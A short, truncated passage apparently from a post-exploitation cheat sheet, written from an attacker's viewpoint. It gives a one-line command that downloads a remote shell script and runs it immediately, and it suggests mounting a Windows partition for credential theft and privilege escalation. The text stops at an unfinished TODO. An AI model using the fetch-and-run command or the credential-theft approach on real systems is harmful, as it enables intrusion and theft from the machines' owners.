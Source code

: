 <a name="remote_script"/><a>
### Execute a Remote Script

wget http://server/file.sh -O- | sh  
This command forces the download of a file and immediately its execution

<a name="windows"/><a>
### Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.

**TODO**: insert details on what to loo
